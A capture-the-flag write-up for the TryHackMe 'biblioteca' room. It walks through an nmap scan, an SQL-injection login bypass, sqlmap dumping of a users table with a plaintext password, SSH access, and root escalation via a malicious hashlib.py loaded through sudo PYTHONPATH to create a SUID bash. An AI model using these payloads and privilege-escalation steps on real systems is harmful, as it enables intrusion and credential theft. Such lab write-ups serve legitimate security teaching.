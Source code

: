 # TryHackMe biblioteca Writeup

* Link https://tryhackme.com/room/biblioteca
* IP 10.10.222.150

## Enumeration

### Portscan - nmap

Initial scan of the machine 

```
$ nmap -sC -sV -oA nmap/initial 10.10.222.150
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-06 09:29 EDT
Nmap scan report for 10.10.222.150
Host is up (0.032s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 00:0b:f9:bf:1d:49:a6:c3:fa:9c:5e:08:d1:6d:82:02 (RSA)
|   256 a1:0c:8e:5d:f0:7f:a5:32:b2:eb:2f:7a:bf:ed:bf:3d (ECDSA)
|_  256 9e:ef:c9:0a:fc:e9:9e:ed:e3:2d:b1:30:b6:5f:d4:0b (ED25519)
8000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title:  Login 
|_http-server-header: Werkzeug/2.0.2 Python/3.8.10
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.01 seconds
```

### Web - Port 8000

Visiting the server on port 8000 reveals a web site

![login](./screenshots/login.png)

One thing to test for is sql Authentication bypass via SQLI and this works for username so  using the below for both username and password reveals a user called smokey


```
' or 1=1--
```
![smokeylogin](./screenshots/smokeylogin.png)

So after knowing the site is vulnabke to SQLI next thing is firing up sqlmap to what info could be dumped so saving the login in request from burp to disk it can be used to find interresting tables

```
$ sqlmap -r login.req --tables 
```

which shows a specific interresting table

```
Database: website                            
[1 table]                                
+---------------------------------------+                                                  
| users                                 |
+---------------------------------------+
```

dumping that table returns an the username and password

```
$ sqlmap -r login.req -D website -T users --dump
```

The result

```
Database: website
Table: users
[2 entries]
+----+-------------------+----------------+----------+
| id | email             | password       | username |
+----+-------------------+----------------+----------+
| 1  | smokey@email.boop | My_P@ssW0rd123 | smokey   |
+----+-------------------+----------------+----------+
```

## User Access


The found password and username can be used to ssh into the machine as smokey.

After spending sometime the hint in the room was a bit helpful trying to change user to hazel
using the password hazel. 
With that the user.txt can be read.

## Privilege escalation 

Checking if Hazel can run sudo reveals

```
hazel@biblioteca:~$ sudo -l
Matching Defaults entries for hazel on biblioteca:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hazel may run the following commands on biblioteca:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /home/hazel/hasher.py
```
and the hasher.py

```
hazel@biblioteca:~$ cat hasher.py 
import hashlib

def hashing(passw):

    md5 = hashlib.md5(passw.encode())

    print("Your MD5 hash is: ", end ="")
    print(md5.hexdigest())

    sha256 = hashlib.sha256(passw.encode())

    print("Your SHA256 hash is: ", end ="")
    print(sha256.hexdigest())

    sha1 = hashlib.sha1(passw.encode())

    print("Your SHA1 hash is: ", end ="")
    print(sha1.hexdigest())


def main():
    passw = input("Enter a password to hash: ")
    hashing(passw)

if __name__ == "__main__":
    main()

```

So with that the python librart hashlib.py can be overwriten or more precise a malcious hashlib.py can created running custom code.

So the crafted malicious hashlib.py is stored in /tmp folder. IT will copy bash and set a suid bit.

```
import os

os.system("cp /bin/bash /tmp/bash")
os.system("chmod +s /tmp/bash") 
```

now the evil python library can used with the sudo command 

```
$ sudo PYTHONPATH=/tmp /usr/bin/python3 /home/hazel/hasher.py
```

after running the command a bash is created in tmp folder with suid bit set 

```
hazel@biblioteca:/tmp$ ls -la
total 1208
drwxrwxrwt 12 root  root     4096 Jun  6 14:11 .
drwxr-xr-x 19 root  root     4096 Dec  7 00:18 ..
-rwsr-sr-x  1 root  root  1183448 Jun  6 14:10 bash
drwxrwxrwt  2 root  root     4096 Jun  6 13:27 .font-unix
-rwxrwxr-x  1 hazel hazel      81 Jun  6 14:11 hashlib.py
drwxrwxrwt  2 root  root     4096 Jun  6 13:27 .ICE-unix
drwxr-xr-x  2 root  root     4096 Jun  6 14:10 __pycache__
drwx------  3 root  root     4096 Jun  6 13:28 snap.lxd
```

now getting root is as simple as

```
hazel@biblioteca:/tmp$ ./bash -p
bash-5.0# whoami
root
bash-5.0# 
```

Thats all on this machine a great machine.